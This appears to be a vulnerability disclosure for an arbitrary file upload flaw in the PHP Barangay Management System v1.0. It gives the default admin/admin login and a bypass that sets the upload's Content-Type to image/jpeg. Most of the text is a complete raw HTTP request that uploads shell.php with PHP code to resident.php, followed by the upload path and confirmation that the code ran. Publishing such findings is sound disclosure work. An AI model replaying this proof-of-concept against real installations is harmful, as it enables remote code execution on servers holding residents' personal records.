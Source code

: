 # Barangay Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

Loophole location：

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Loophole location: Background management system Resident module editing function-> resident.php file picture upload point exists arbitrary file upload vulnerability (RCE).

Click "Save" to save

> Content-Type: image/jpeg //Key points (Bypass detection by changing "Content Type" to "Content-Type: image/jpeg")

Request package for file upload：


```sql
POST /bmis/pages/resident/resident.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/resident/resident.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------197262279020245
Content-Length: 4420

-----------------------------197262279020245
Content-Disposition: form-data; name="hidden_id"

1
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_lname"

Suares
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_fname"

Jude
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_mname"

Reyes
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_bdate"

2021-10-12
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_brgy"

Brgy.Tan-awan
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_householdnum"

1
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_dperson"

yes
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_btype"

0+
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_cstatus"

Single
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_length"

5
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_national"

Filipino
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_igpit"

1122
-----------------------------197262279020245
Content-Disposition: form-data; name="ddl_edit_eattain"

Doctorate degree
-----------------------------197262279020245
Content-Disposition: form-data; name="ddl_edit_los"

Care Taker
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_water"

Deep Well
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_toilet"

Water-sealed
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_remarks"

None
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_uname"

jude
-----------------------------197262279020245
Content-Disposition: form-data; name="ddl_edit_gender"

Male
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_bplace"

Brgy. Mambato, Himamaylan City
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_mstatus"

single
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_zone"

1
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_householdmem"

10
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_rthead"

Brother
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_occp"

Programmer
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_income"

300000
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_religion"

Catholic
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_skills"

Programming
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_phno"

2147483647
-----------------------------197262279020245
Content-Disposition: form-data; name="ddl_edit_hos"

Live with Parents/Relatives
-----------------------------197262279020245
Content-Disposition: form-data; name="ddl_edit_dtype"

2nd Option
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_lightning"

2147483647
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_faddress"

brgy. enlcaro
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_upass"

jude123
-----------------------------197262279020245
Content-Disposition: form-data; name="txt_edit_image"; filename="shell.php"
Content-Type: image/jpeg //Key points

JFJF
<?php phpinfo();?>
-----------------------------197262279020245
Content-Disposition: form-data; name="btn_save"

Save
-----------------------------197262279020245
Content-Disposition: form-data; name="table_length"

10
-----------------------------197262279020245--
```

The files will be uploaded to this directory \bmis\pages\resident\image\
![image](https://user-images.githubusercontent.com/45709238/173297710-6ccee261-2150-484d-b721-2365b75af159.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/45709238/173297840-b30dae8b-3fb2-4a9f-9dfc-b39a67520c7e.png)



